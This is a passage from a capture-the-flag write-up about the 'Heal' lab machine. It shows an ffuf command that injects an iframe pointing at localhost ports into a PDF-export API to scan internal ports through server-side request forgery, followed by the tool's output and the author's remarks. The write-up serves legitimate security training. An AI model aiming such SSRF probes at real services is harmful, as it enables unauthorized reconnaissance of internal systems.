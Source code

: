 I feel like I should be able to at least fuzz for open ports, but I couldn’t get it to work in a reasonable way:

```

oxdf@hacky$ ffuf -u http://api.heal.htb/exports -d '{"content":"<iframe src=http://127.0.0.1:FUZZ>","format":"pdf"}' -H "Content-Type: application/json" -w <( seq 1 10000) -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ" -mc 201

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://api.heal.htb/exports
 :: Wordlist         : FUZZ: /dev/fd/63
 :: Header           : Content-Type: application/json
 :: Header           : Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ
 :: Data             : {"content":"<iframe src=http://127.0.0.1:FUZZ>","format":"pdf"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 201
________________________________________________

11                      [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 900ms]
13                      [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 1096ms]
22                      [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 1498ms]
1                       [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 1802ms]
7                       [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 2140ms]
15                      [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 2351ms]
101                     [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 2350ms]
113                     [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 2425ms]
514                     [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 2413ms]
2049                    [Status: 201, Size: 76, Words: 3, Lines: 1, Duration: 5894ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

```

I would think that only open ports would return 201 (the others 500).

I think it’s good that the testing team caught this, and saved players a potentially frustrating rabbit hole.